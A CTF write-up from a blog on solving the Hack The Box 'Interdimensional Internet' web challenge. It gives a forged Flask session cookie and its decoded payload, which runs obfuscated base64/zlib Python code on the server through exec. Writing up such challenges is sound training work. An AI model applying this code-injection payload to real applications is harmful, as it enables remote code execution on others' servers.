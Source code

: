 ```yaml
---
layout: post
title: Interdimensional Internet CTF (Hack The Box)
subtitle: Solution write-up and full exposure of strategy and tools  
date: 2020-10-12
categories: HTB
---
```


<div class="text-center">
<img src="https://i.ibb.co/kgv4Jz1/rm-jail-new.png" alt="cpu" border="0">
</div>


# Intro

The objective of this report is to show how we captured the flag for the **interdimensional internet** web challenge from Hack The Box.

 We have created a Github repository [here](https://github.com/gr0uch0dev/HTB_interdimensional_internet) hosting the write-up in the form of a Jupyter notebook. In the repository we have provided the entire environment in which we have worked while solving the challenge. Docker containers are made available to speed up replication of our attack.

## The Solution

Next we present the cookie that allowed us to get the flag.

Our instance is at: `167.172.53.64:30820`.

In order to get the flag we sent a `GET` request with a session cookie equal to:

```
.eJw9kctuozAARX9lxHoWxgRNW6mLQIDYaZwCtsHe8bDCw6YMMGlJlX8vq1lc6d6zvOfbaofrpOpWDYv18m39Kq0XSx7AgDPSy4zcZMQGTGN4WisttpDD_o_Mm63vW0GBrlak8Yp1OjSXYkjC1Kn_xsxOM3-ZT2DE3B4B19dbpsMdy5O-5PxdmXASWt8KvnfrPBkFlF4JY6e46x2N0I0eZEQNBwLIC40I5JTPLHoCte2t1E7OZXZdlcEry0lAAWkLuPsse2TXdugpPjbUIZTY_POcNbLIAic29a7uXUBzr017LGgWxiUIwIXyD5GPPufIqZgr2B2jMpSdCpYjOcpbqvkk4HO_sfeKxevJln5qkuOZcxFrBM4Ue2_3Jk-NCy5HrGkvYNk-d4kJh0IT983Rs-wah0UNKODXgNpqkv48IIObCjJIfDTidem3b1tlvkbRbvu-aBXxDkVBZz1-W0YV879Jmc3P_F8Q2r--Wo_HD6jwlO8.X4MZ2A._w1lmUCw-WGQWBZRXD2eAajo-Co
```
The flag was then found reaching the endpoint `/w`. A route that had been created by sending the application the above cookie.

In the following picture we show the result of sending a request with `curl` using such a cookie for the `session` value. We were able to retrieve the flag from the specified endpoint as the picture shows.

<img src="https://i.ibb.co/68yzmKm/flag-curl.png" alt="flag-curl" border="0">

The session cookie sent to the application holds a `base64` encode of the following payload:
```py
{u'measurements': ' ', u'ingredient': 'd=\'%cdecode\'%46+\'%c\'%40;exec "a=%s"%\'"eJxNjtEKwjAMRX+l+JIWZtVX/ZQxQtdmUOzakbYoiP9uticfAod7k9xLb/L6FNetcFNLcvU5lPo4wPrOTLmh2zbrQsDOCbkn0nB5wQAyZaOsS7Up1hYia7BgxvNtMpbJBXMaPoA495hazBUR7qNXS2HlVcxKG4voJUkcodlVOqD2+VBJdG1UXBR412A/8WJnt8reNF6n/cFagjSy/ylf8wPhtklg"\'+d+\'"base64")\'+d+\'"zlib")\';exec a#'}
```
